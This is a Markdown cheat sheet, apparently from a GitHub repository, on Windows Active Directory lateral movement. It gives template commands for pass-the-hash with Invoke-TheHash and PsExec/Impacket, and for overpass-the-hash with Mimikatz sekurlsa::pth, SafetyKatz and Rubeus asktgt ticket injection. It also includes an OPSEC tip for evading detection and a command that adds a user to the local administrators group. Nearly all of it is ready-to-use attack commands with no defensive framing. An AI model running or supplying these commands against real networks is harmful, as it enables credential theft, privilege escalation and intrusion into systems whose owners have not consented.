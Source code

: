 #### Invoke-TheHash
- https://github.com/Kevin-Robertson/Invoke-TheHash
- Can use the command ```net localgroup administrators <DOMAIN>\<USERNAME> /add``` and do ```enter-pssession``` after to connect 
```
Invoke-SMBExec -Target <COMPUTERNAME> -Domain <DOMAIN> -Username <USERNAME> -Hash <NTLM HASH> -Command <COMMAND> -Verbose
```

#### Psexec
- Sysinternals Psexec seems to only work with password or after a overpass the hash attack with Mimikatz!
- Impacket: https://github.com/maaaaz/impacket-examples-windows
```
.\PsExec64.exe \\<COMPUTERNAME> -accepteula -u <DOMAIN>\<ADMINISTRATOR -p <PASSWORD> -i cmd.exe
.\PsExec64.exe \\<COMPUTERNAME> -accepteula -u <COMPUTERNAME>\administrator -p <PASSWORD> -i cmd.exe
.\PsExec64.exe \\<COMPUTERNAME> -accepteula 

.\psexec_windows.exe <DOMAIN>/<USER>@<TARGET FQDN> -hashes :<NTLM HASH>
```

### Overpass The Hash
- Over Pass the hash (OPTH) generate tokens(kerberos) from hashes or keys. Needs elevation (Run as administrator)
- OPSEC TIP: Use aes256 keys!

#### Calculate NTLM hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Mimikatz overpass the hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:powershell.exe"'
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:powershell.exe"'
```

#### SafetyKatz
```
SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256KEYS> /run:cmd.exe" "exit" 
```

#### Rubeus
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:<USER> /rc4:<NTLM HASH> /domain /nowrap /ptt
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /ptt
```

- Below command needs elevation
```
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
